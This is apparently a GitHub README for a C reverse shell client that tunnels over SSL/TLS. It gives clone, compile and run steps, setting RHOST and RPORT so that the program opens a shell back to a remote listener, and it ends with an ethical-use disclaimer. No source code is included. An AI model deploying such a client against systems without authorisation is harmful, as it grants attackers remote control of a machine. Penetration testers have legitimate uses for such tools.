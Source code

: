# Reverse Shell Client

A simple reverse shell client written in C that connects to a specified remote server over an SSL/TLS connection. 
It can be used for secure remote shell access to a target machine. 

## Features

- **Secure Connection**: Utilizes SSL/TLS for encrypted communication between client and server.
- **Cross-Protocol Support**: Works with both IPv4 and IPv6.
- **Timeout Handling**: Configurable socket timeout to handle connection issues.
- **Signal Handling**: Exits on interrupt signals.
- **Dynamic Shell Spawning**: Launches a shell on the remote server upon successful connection.

## Prerequisites

- **OpenSSL**: Required for SSL/TLS functionality.
- **GCC**: For compiling the C source code.
- **Make**: Optional, for building with a Makefile.

## Installation

1. **Clone the Repository**:
   ```bash
	git clone git@github.com:Umair-khurshid/Reverse-Shell-Client.git
	cd Reverse-Shell-Client
   ```
   
2. **Install Dependencies (for Ubuntu/Debian)**:

```bash
	sudo apt-get update
	sudo apt-get install libssl-dev gcc make
```

3. **Compile the Program**:
```bash
	gcc -Wall -o RemoteShellClient main.c -lssl -lcrypto
```

## Usage
1. **Set Environment Variables**:

```bash
export RHOST="192.168.1.100"  # Replace with the target IP address or domain
export RPORT="4444"           # Replace with the target port
```
2. **Run the Program**:

```bash
./RemoteShellClient
```


## Troubleshooting
- **Connection Issues**: Ensure the remote server is accessible and listening on the specified port.
- **SSL/TLS Errors**: Verify that OpenSSL is correctly installed and configured on both the client and server.
- **Compilation Errors**: Ensure all dependencies are installed and that you are using the correct version of GCC and OpenSSL.


## Disclaimer
_This tool is intended for educational purposes and ethical use only. Unauthorized use or deployment on networks or systems without explicit permission is illegal and unethical. Always ensure you have proper authorization before using this tool._


